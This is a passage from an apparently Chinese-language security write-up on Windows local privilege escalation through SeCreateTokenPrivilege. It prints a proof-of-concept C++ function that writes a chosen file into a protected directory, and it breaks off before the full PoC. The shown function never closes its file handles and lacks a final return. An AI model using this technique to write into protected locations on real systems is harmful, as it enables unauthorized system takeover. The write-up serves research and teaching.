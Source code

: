 到这里，我们就已经获取了本地管理员权限了，写入受保护目录、并写入/覆盖注册表项等特权操作都是轻而易举。

### Write To Protected Directory

在我的 POC 中，我编写了 `ExploitSeCreateTokenPrivilege()` 函数，用于将指定文件写入受保护目录，如下所示。

```c++
BOOL ExploitSeCreateTokenPrivilege(LPCWSTR sourceFile, LPCWSTR destFile)
{
	BOOL status = FALSE;
	HANDLE hSource, hDestination;
	char buffer[SIZE + 1];
	DWORD dwBytesRead, dwBytesWrite;

	if (sourceFile && destFile)
	{
		// Open source file.
		hSource = CreateFileW(sourceFile, GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
		if (hSource == INVALID_HANDLE_VALUE)
		{
			wprintf(L"[-] Could not open source file by CreateFileW: [%u].\n", GetLastError());
			return status;
		}
		// Create destination file.
		hDestination = CreateFileW(destFile, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
		if (hDestination == INVALID_HANDLE_VALUE)
		{
			wprintf(L"[-] Could not create destination file by CreateFileW: [%u].\n", GetLastError());
			return status;
		}
		// Read from source file.
		if (!ReadFile(hSource, buffer, SIZE, &dwBytesRead, NULL))
		{
			wprintf(L"[-] ReadFile Error: [%u].\n", GetLastError());
			return status;
		}
		wprintf(L"[*] Read bytes from %ws: %d\n", sourceFile, dwBytesRead);
		// Write to destination file.
		if (!WriteFile(hDestination, buffer, dwBytesRead, &dwBytesWrite, NULL))
		{
			wprintf(L"[-] WriteFile Error: [%u].\n", GetLastError());
			return status;
		}
		printf("[*] Bytes written to %ws: %d\n", destFile, dwBytesWrite);
		status = TRUE;
	}
}
```

最终完整的 POC 代码如下：

